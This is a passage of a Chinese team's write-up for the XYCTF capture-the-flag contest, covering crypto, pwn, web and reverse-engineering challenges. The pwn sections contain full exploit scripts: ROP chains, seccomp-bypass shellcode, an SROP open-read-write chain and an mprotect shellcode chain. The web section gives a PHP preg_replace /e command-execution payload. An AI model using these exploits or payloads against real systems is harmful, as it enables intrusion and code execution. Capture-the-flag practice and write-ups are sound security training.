177528347913151557485724245415069595082953311686172785588907509838175463746493931925506040092770167113900984882401285836160356370766010471018194295559619894676783744944825537977472684710404753464620804668425906949129331367702898915210475216205696602405803815019351125338243003558764024749647326391419927260426992279678235478163600934172164121992458631503028618297455570674983850549458858692699569092721079750930295532116534498720275596023648066549911988183479775356636980742654252786255181841757467289097777279380008164706001614524919217321721477235014144197356854816136115735255213347574184946843852332390739414333454776241686251898356948556209921922218427255025425688767179049460165346680498862723279178608578438382796797668145410095388378636095068006422512520511739298489608412848862694560424196528502221066118630674427862203919494504712371378696095636437191728746776465757396241389086583264599581339047802759009'
pi = Decimal(pi_str)
e = 9
x = Decimal(enc_im) / Decimal(enc_re)
e_theta =  arctan(x, N*32)
# attempt 1
print(sin(e_theta / 9 + 2 * pi / 9 * 0, N*4) ** 2 * com_squared)
print(sin(e_theta / 9 + 2 * pi / 9 * 1, N*4) ** 2 * com_squared)
print(sin(e_theta / 9 + 2 * pi / 9 * 2, N*4) ** 2 * com_squared)

# attempt 2
p = 10205509456040823453782883291824829705816298450992336115902525676510986341532486274067943978039013674207011185602314114359146043975207543018267242312660911
for k in [0,1,2]:
    s2 = sin(e_theta / 9 + 2 * pi / 9 * k, N*4) ** 2
    s2p = s2 * p
    res = s2 * com_squared
    for i in range(256**3):
        if '0000000000000000' in str(res):
            print(res)
        res += s2p
```

期待各路✌的wp，我好好学习学习

## Pwn

### [Solved]hello_world(签到)

**By yyc**

ret2libc，两次read都有溢出点，动调发现可以根据第一次的输出泄露栈上的内容(libc_start_main)，进而得到libcbase，然后就能构建rop链了(这里所有的one_gadget都无法直接用)

```Python
#! /usr/bin/python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F', '#{pane_pid}', '-P']

def p():
    gdb.attach(proc.pidof(io)[0])

debug = 1
if debug:
    io = process('./vuln')
    p()
else:
    io = remote('xyctf.top',44119)
elf = ELF('./vuln')
libc = ELF('./libc.so.6')

one_gadgets = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]

io.sendafter('name: ', b'a'*(0x20+8))
libc_start_call_main = u64(io.recvuntil(b'\n')[-7:-1].ljust(8, b'\x00'))
libc_start_call_main = libc_start_call_main - 128
success('libc_start_call_main->' + hex(libc_start_call_main))
libc_start_main = libc_start_call_main + 0xB0
libc_base = libc_start_main - libc.symbols['__libc_start_main']
success('libc_base->' + hex(libc_base))

# one_gadget = libc_base + one_gadgets[6]
system = libc_base + libc.symbols['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x000000000002a3e5 # pop rdi ; ret
pop_rsi = libc_base + 0x000000000002be51 # pop rsi ; ret
pop_rdx_r12 = libc_base + 0x000000000011f2e7 # pop rdx ; pop r12 ; ret
ret = libc_base + 0x0000000000029139 # ret

payload = b'a'*(0x20+8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
io.sendafter('name: ', payload)

io.interactive()
```

### [Solved]invisible_flag

**By yyc**

利用seccomp查看系统调用禁止情况，发现execve,execveat,open,read,readv,write,writev均被禁用，考虑使用其他的系统调用代替，用openat代替open，preadv2代替read，sendfile代替write，输出flag

参考：[Shellcode-Summary](https://heygap.github.io/2024/02/08/Pwn - Shellcode Summary/)，[seccomp绕过](https://blog.csdn.net/qq_54218833/article/details/134205383)

```Python
#! /usr/bin/python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F', '#{pane_pid}', '-P']

def p():
    gdb.attach(proc.pidof(io)[0])

debug = 0
if debug:
    io = process('./vuln')
    # p()
else:
    io = remote('xyctf.top', 44091)
elf = ELF('./vuln')
libc = ELF('./libc.so.6')

shellcode = asm(
    '''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall
    
    mov rdi, 3
    push 0x100
    lea rbx, [rsp-8]
    push rbx
    mov rsi, rsp
    mov rdx, 1
    xor r10, r10
    xor r8, r8
    push SYS_preadv2
    pop rax
    syscall
    
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
    '''
)

io.recvuntil('show your magic again')
io.sendline(shellcode)

io.interactive()
```

### [Solved]static_link

**By yyc**

静态链接，也就没办法ret2libc之类的，但是程序本身会有很多gadgets和可利用函数。看一眼保护，开了NX（堆栈不可执行），用ida打开，没有system，syscall，execve等函数，也就没法直接开shell，但是有mprotect，可以用来修改权限，那么考虑修改bss段为可执行，然后ret2shellcode

```Python
#! /usr/bin/python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F', '#{pane_pid}', '-P']

def p():
    gdb.attach(proc.pidof(io)[0])

debug = 0
if debug:
    io = process('./vuln')
    # p()
else:
    io = remote('xyctf.top', 35355)
elf = ELF('./vuln')

read_addr = elf.sym['read']
mprotect_addr = elf.sym['mprotect']
pop_rdi = 0x0000000000401f1f # pop rdi ; ret
pop_rsi = 0x0000000000409f8e # pop rsi ; ret
pop_rdx = 0x0000000000451322 # pop rdx ; ret
bss_addr = 0x00000000004CB000 # .bss

payload = b'a' * (0x20+0x8)
payload += flat(
    pop_rdi, bss_addr,
    pop_rsi, 0x1000,
    pop_rdx, 7,
    mprotect_addr
)

shellcode = asm(shellcraft.sh())

payload += flat(
    pop_rdi, 0,
    pop_rsi, bss_addr,
    pop_rdx, 0x200,
    read_addr,
    bss_addr
)

io.recvuntil('static_link? ret2??')
io.sendline(payload)
pause()
io.send(shellcode)

io.interactive()
```

### [Solved]guestbook1

**By yyc**

ida查看发现有backdoor，那么考虑ret2text。观察发现，第二次读入存在一个字节的越界读写，可以改写rbp的低字节，同时第一次可以读入0x10在栈上，那么就可以考虑第一次布置假的栈帧，return address设置为backdoor，然后把rbp低字节改写为布置的栈帧的位置，从而实现跳转。

不过没找到泄露栈地址的方法，动调发现需要改的位置的最低位总是0，那么实际上只有一位在变化，尝试爆破（

```Python
#! /usr/bin/python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F', '#{pane_pid}', '-P']

def p():
    gdb.attach(proc.pidof(io)[0])

debug = 0
if debug:
    io = process('./pwn')
    p()
else:
    io = remote('xyctf.top', 40778)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

io.recvuntil('index')
io.sendline(b'32')
io.recvuntil('name:')

stack = p64(0xdeadbeef) + p64(backdoor) # fake rbp + retun address
io.send(stack)

io.recvuntil('id:')
io.sendline(b'64') # 0x40, just a try

io.recvuntil('index')
io.sendline('-1') # break

io.recvuntil('Have a good time!', timeout=3)
io.recvuntil('oh,you find it.', timeout=3)
sleep(1)
io.sendline(b'cat flag')

io.interactive()
```

### [Solved]**simple_srop**

**By yyc**

根据题目名称以及gadgets可知可用srop来获取flag，同时发现开启了沙箱，用seccomp-tools检测，execve和execveat都被禁用，也就无法直接开shell，那么考虑orw，把rop链读到可读可写的空白地址上，然后控制rsp过去执行，orw读取flag

```Python
#! /usr/bin/python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux', 'splitw', '-h', '-F', '#{pane_pid}', '-P']

def p():
    gdb.attach(proc.pidof(io)[0])

debug = 1
if debug:
    io = process('./vuln')
    # p()
else:
    io = remote('', 12345)
elf = ELF('./vuln')

sigreturn = 0x401296 # mov rax, 0xf ; syscall
syscall = 0x000000000040129d # syscall_retn
readin_addr = 0x4040a0
frame_addr = 0x404100        
path_str = b'./flag\x00'.ljust(8, b'\x00')
path_addr = 0x4040e0

# orw
path_input_frame = SigreturnFrame()
path_input_frame.rax = constants.SYS_read
path_input_frame.rdi = 0
path_input_frame.rsi = path_addr
path_input_frame.rdx = len(path_str)
path_input_frame.rsp = frame_addr + len(bytes(path_input_frame)) + 8
path_input_frame.rip = syscall

open_frame = SigreturnFrame()
open_frame.rax = constants.SYS_open
open_frame.rdi = path_addr
open_frame.rdx = 0
open_frame.rsi = 0
open_frame.rsp = frame_addr + len(bytes(path_input_frame)) + 8 + len(bytes(open_frame)) + 8
open_frame.rip = syscall

read_frame = SigreturnFrame()
read_frame.rax = constants.SYS_read
read_frame.rdi = 3
read_frame.rsi = readin_addr
read_frame.rdx = 100
read_frame.rsp = frame_addr + len(bytes(path_input_frame)) + 8 + len(bytes(open_frame)) + 8 + len(bytes(read_frame)) + 8
read_frame.rip = syscall

write_frame = SigreturnFrame()
write_frame.rax = constants.SYS_write
write_frame.rdi = 1
write_frame.rsi = readin_addr
write_frame.rdx = 100
write_frame.rsp = 0xdeadbeef
write_frame.rip = syscall

payload =  p64(sigreturn)
payload += bytes(path_input_frame)
payload += p64(sigreturn)
payload += bytes(open_frame)
payload += p64(sigreturn)
payload += bytes(read_frame)
payload += p64(sigreturn)
payload += bytes(write_frame)

read_payload_frame = SigreturnFrame()
read_payload_frame.rax = constants.SYS_read
read_payload_frame.rdi = 0
read_payload_frame.rsi = frame_addr
read_payload_frame.rdx = len(payload) + 0x2
read_payload_frame.rsp = frame_addr
read_payload_frame.rip = syscall

padding = b'a'*(0x20+8)
payload_input = p64(sigreturn)
payload_input += bytes(read_payload_frame)

io.sendline(padding + payload_input)
pause()
io.sendline(payload)
pause()
io.send(path_str)

io.interactive()
```

## Web

### [Solved]ezhttp

**By yyc**

和SSSCTF2023的sleephead很像，根据要求一步一步改请求头即可

不过这里改本地ip不能使用X-Forwarded-For，需要用Client-IP

### [Solved]Warm up

**By moywdr**

第一个是经典的0e绕过，?val1=QNKCDZO&val2=240610708

$$md5 == md5$$md5)用特殊字符串&md5=0e215962017

第三个利用$XYCTF可以被复写，保证xyctf和xy相同即可，md5编码XYCTF_550102591发现是0e打头，用0e绕过即可，&XYCTF=240610708&XY=240610708

接下来访问LLeeevvveeelll222.php

第一个if用到了interval，post,利用数组绕过a[]=a

`echo preg_replace($_GET['a'],$_GET['b'],$_GET['c']);`查阅资料得知a处正则用/e方式读取可以执行命令，payload：`?a=/re/e&b=print_r(scandir('.'))&c=re`读取到flag在根目录，&b=highlight_file('/flag')读取flag

### [Solved]ezmd5

**By moywdr**

从网上找到两张md5值相同但是内容不同的图片，上传得到flag

参考https://blog.csdn.net/rclijia/article/details/114400242

## Reverse

### [Solved]DebugMe

**By moywdr**

 mt管理器加上debuggable = "true"允许调试，之后利用jeb动调，点击按钮即可获得flag

### [Solved]你是真的大学生吗？

**By moywdr**

msdoc 字节码，拖入ida嗯看汇编写出exp，

```Python
list1 = [0x76, 0x0E, 0x77, 0x14, 0x60, 0x06, 0x7D, 0x04, 0x6B, 0x1E, 0x41, 0x2A, 0x44, 0x2B, 0x5C, 0x03, 0x3B, 0x0B, 0x33, 0x05]
for i in range(0,len(list1)-1):
    list1[i] = list1[i] ^ list1[i+1]
print(''.join([chr(i) for i in list1]))
```

### [Solved]喵喵喵的flag碎了一地

by moywdr

跟着提示一路走就能获取全部flag

### [Solved]聪明的信使

**By moywdr**

凯撒密码，偏移9，#		oujp{H0d_TwXf_Lahyc0_14_e3ah_Rvy0ac@wc!}

### [Solved]baby unity

**By moywdr**

gameassambly.dll 文件加了upx4.21的壳，脱壳后用lib2cppdumper，dump出dll,和其他文件，将assambly-cshap.dll拖入dnspy获取check类下checkfllllg方法在gameassambly.dll中的偏移,之后利用lib2cppdumper的ida_struct_py3.py脚本还原gameassambly.dll的符号，根据偏移找到checkfllllllg方法的函数,



分析代码可知将flag base64后异或0xF，反向操作即可.

Enc == XIcKYJU8Buh:UeV:BKN{U[JvUL??VuZ?CXJ;AX^{Ae]gA[]gUecb@K]ei^22



### [Solved]ez unity

**By moywdr**

gameassambly.dll 文件加了upx4.21的壳,globl-metadata进行了加密(或者说改了几个字节)

原数据



修复后数据



之后利用lib2cppdumper恢复符号，这里不再赘述，



发现是AES加密，上面分别是base64后的密文，密钥，iv,解密即可获取flag.

### [Solved]Trustme

**By moywdr**



主类获取用户名信息

ProxyApplication类里知道调用了shell.apk里的类和方法



网上查询可知shell.apk 在data\data\目录下的公有空间, 在该目录下获得shell.apk



得到真正的mainactivity 分析得.db数据库文件异或了0xFF,将.db所有字节异或0XFF，打开.db文件即可获取flag

### [Solved]今夕是何年

**By moywdr**

File 命令发现是龙芯架构，



https://blog.csdn.net/longji/article/details/132724349   龙芯环境配置

Qemu 中运行main即可获取flag

### [Solved]ezrand

**By moywdr**

动调发现是后四位时间戳爆破

```Python
from ctypes import *


out1= ['X','Y','C','T']
enc1 = [0x5D,0x0C,0x6C,0xEA]
def main():
    # 设置密钥
    for i in range(0, 0xFFFF):
        libc = cdll.LoadLibrary("msvcrt.dll")  # Windows
        libc.srand(c_uint(i))
        libc.rand.restype = c_int
        
        v7 =0
        flag = 0
        for j in range(0,4):
        # 打印结果
            v7 = libc.rand()
            temp  = (((v7 * 0x80808081)>>32)&0xFFFFFFFF)>>7
            if (v7 - ( temp+(temp>>0x1F))*0xFF) ^ ord(out1[j]) == enc1[j] :
                flag+=1
            if flag>=4:
                print(hex(i))


if __name__ == "__main__":
    main()
from ctypes import *
enc1 = [0x5D, 0x0C, 0x6C, 0xEA, 0x46, 0x19, 0xFC, 0x34, 0xB2, 0x62, 0x23, 0x07, 0x62, 0x22, 0x6E, 0xFB, 0xB4, 0xE8, 0xF2, 0xA9, 0x91, 0x12, 0x21, 0x86, 0xDB, 0x8E, 0xE9, 0x43, 0x4D]
libc = cdll.LoadLibrary("msvcrt.dll")  # Windows
libc.srand(c_uint(0x533C))
libc.rand.restype = c_int
for j in range(0,29):
    v7 = libc.rand()
    temp  = (((v7 * 0x80808081)>>32)&0xFFFFFFFF)>>7
    enc1[j]=(v7 - ( temp+(temp>>0x1F))*0xFF) ^ enc1[j]
print(''.join([chr(i) for i in enc1]))
```

### [Solved]**何须相思煮余年**

**By moywdr**

前面的是汇编代码,将数据写入bin文件,ida反编译得



```C
#include <stdio.h>
int main(int argc, char const *argv[])
{
    int v2[39] = {88,88,134,87,74,118,318,101,59,92,480,60,65,41,770,110,73,31,918,39,120,27,1188,47,77,24,1352,44,81,23,1680,46,85,15,1870,66,91,16,4750};
    for (int  i = 0; i < 39; ++i )
     {
       if ( i % 4 )
       {
         switch ( i % 4 )
         {
           case 1:
             v2[i] += i;
             break;
           case 2:
             v2[i] /= i;
             break;
           case 3:
             v2[i] ^= i;
             break;
         }
       }
       else
       {
         v2[i] -= i;
       }
     }
     for (int i = 0; i < 39; i++)
     {
        printf("%c",v2[i]);
     }
     

    return 0;
}
```

### [Solved]砸核桃

**By moywdr**

Aspack 压缩壳,用x64结合esp定律脱壳 脱壳后拖入ida 分析即可(找文件的时候发现原来的文件好像被防火墙吞了....)

### [Solved]ezcube

**By moywdr&MetaMiku**

解魔方

群论这东西，当然是交给sage做吧

```Python
def crack(depth, move=""):
    if depth == 0:
        if (r == RubiksCube(move)):
            print(move)
        return
    for char in ["U ", "U' ", "R ", "R' "]:
        crack(depth - 1, move + char)

r = RubiksCube("R R U U F F L L B B D' B B L L F F U R R") # 这段代码是在https://huazhechen.gitee.io/cuber/ 得到的六个生成元的解
crack(12)
```

什么玩意，sage也太慢了吧，真的服了*，绝对不是屑Miku不会解S48群*

```C
#include <stdio.h>
/*
                     +--------------+
                     |              |
                     |  1    2    3 |
                     |              |
                     |  4  top    5 |
                     |              |
                     |  6    7    8 |
      +--------------+--------------+--------------+--------------+
      |              |              |              |              |
      |  9   10   11 | 17   18   19 | 25   26   27 | 33   34   35 |
      |              |              |              |              |
      | 12  left  13 | 20 front  21 | 28 right  29 | 36  rear  37 |
      |              |              |              |              |
      | 14   15   16 | 22   23   24 | 30   31   32 | 38   39   40 |
      |              |              |              |              |
      +--------------+--------------+--------------+--------------+
                     |              |
                     | 41   42   43 |
                     |              |
                     | 44 bottom 45 |
                     |              |
                     | 46   47   48 |
                     |              |
                     +--------------+

颜色缩写约定：
R - red     O - orange
W - white   Y - yellow
G - green   B - blue

完全复原：
       Y Y Y
       Y Y Y
       Y Y Y
B B B  R R R  G G G  O O O 
B B B  R R R  G G G  O O O
B B B  R R R  G G G  O O O
       W W W
       W W W
       W W W

完整魔方群的生成元：
T = ( 1, 3, 8, 6)( 2, 5, 7, 4)( 9,33,25,17)(10,34,26,18)(11,35,27,19)
L = ( 9,11,16,14)(10,13,15,12)( 1,17,41,40)( 4,20,44,37)( 6,22,46,35)
F = (17,19,24,22)(18,21,23,20)( 6,25,43,16)( 7,28,42,13)( 8,30,41,11)
R = (25,27,32,30)(26,29,31,28)( 3,38,43,19)( 5,36,45,21)( 8,33,48,24)
B = (33,35,40,38)(34,37,39,36)( 3, 9,46,32)( 2,12,47,29)( 1,14,48,27)
U = (41,43,48,46)(42,45,47,44)(14,22,30,38)(15,23,31,39)(16,24,32,40)

*/

// 轮换：T = ( 1, 3, 8, 6)( 2, 5, 7, 4)( 9,33,25,17)(10,34,26,18)(11,35,27,19)
void T(char *dst, char *src){
    dst[ 1] = src[ 6];  dst[ 3] = src[ 1];  dst[ 8] = src[ 3];  dst[ 6] = src[ 8];  
    dst[ 2] = src[ 4];  dst[ 5] = src[ 2];  dst[ 7] = src[ 5];  dst[ 4] = src[ 7];
    dst[ 9] = src[17];  dst[33] = src[ 9];  dst[25] = src[33];  dst[17] = src[25];
    dst[10] = src[18];  dst[34] = src[10];  dst[26] = src[34];  dst[18] = src[26];
    dst[11] = src[19];  dst[35] = src[11];  dst[27] = src[35];  dst[19] = src[27];
    dst[12] = src[12];  dst[13] = src[13];  dst[14] = src[14];  dst[15] = src[15];
    dst[16] = src[16];  dst[20] = src[20];  dst[21] = src[21];  dst[22] = src[22];
    dst[23] = src[23];  dst[24] = src[24];  dst[28] = src[28];  dst[29] = src[29];
    dst[30] = src[30];  dst[31] = src[31];  dst[32] = src[32];  dst[36] = src[36];
    dst[37] = src[37];  dst[38] = src[38];  dst[39] = src[39];  dst[40] = src[40];
    dst[41] = src[41];  dst[42] = src[42];  dst[43] = src[43];  dst[44] = src[44];
    dst[45] = src[45];  dst[46] = src[46];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：t = T^-1  
void t(char *dst, char *src){
    dst[ 6] = src[ 1];  dst[ 8] = src[ 6];  dst[ 3] = src[ 8];  dst[ 1] = src[ 3];  
    dst[ 4] = src[ 2];  dst[ 7] = src[ 4];  dst[ 5] = src[ 7];  dst[ 2] = src[ 5];
    dst[17] = src[ 9];  dst[25] = src[17];  dst[33] = src[25];  dst[ 9] = src[33];
    dst[18] = src[10];  dst[26] = src[18];  dst[34] = src[26];  dst[10] = src[34];
    dst[19] = src[11];  dst[27] = src[19];  dst[35] = src[27];  dst[11] = src[35];
    dst[12] = src[12];  dst[13] = src[13];  dst[14] = src[14];  dst[15] = src[15];
    dst[16] = src[16];  dst[20] = src[20];  dst[21] = src[21];  dst[22] = src[22];
    dst[23] = src[23];  dst[24] = src[24];  dst[28] = src[28];  dst[29] = src[29];
    dst[30] = src[30];  dst[31] = src[31];  dst[32] = src[32];  dst[36] = src[36];
    dst[37] = src[37];  dst[38] = src[38];  dst[39] = src[39];  dst[40] = src[40];
    dst[41] = src[41];  dst[42] = src[42];  dst[43] = src[43];  dst[44] = src[44];
    dst[45] = src[45];  dst[46] = src[46];  dst[47] = src[47];  dst[48] = src[48];
}

// 轮换：L = ( 9,11,16,14)(10,13,15,12)( 1,17,41,40)( 4,20,44,37)( 6,22,46,35)
void L(char *dst, char *src){
    dst[ 9] = src[14];  dst[11] = src[ 9];  dst[16] = src[11];  dst[14] = src[16];  
    dst[10] = src[12];  dst[13] = src[10];  dst[15] = src[13];  dst[12] = src[15];
    dst[ 1] = src[40];  dst[17] = src[ 1];  dst[41] = src[17];  dst[40] = src[41];
    dst[ 4] = src[37];  dst[20] = src[ 4];  dst[44] = src[20];  dst[37] = src[44];
    dst[ 6] = src[35];  dst[22] = src[ 6];  dst[46] = src[22];  dst[35] = src[46];
    dst[ 2] = src[ 2];  dst[ 3] = src[ 3];  dst[ 5] = src[ 5];  dst[ 7] = src[ 7];
    dst[ 8] = src[ 8];  dst[18] = src[18];  dst[19] = src[19];  dst[21] = src[21];
    dst[23] = src[23];  dst[24] = src[24];  dst[25] = src[25];  dst[26] = src[26];
    dst[27] = src[27];  dst[28] = src[28];  dst[29] = src[29];  dst[30] = src[30];
    dst[31] = src[31];  dst[32] = src[32];  dst[33] = src[33];  dst[34] = src[34];
    dst[36] = src[36];  dst[38] = src[38];  dst[39] = src[39];  dst[42] = src[42];
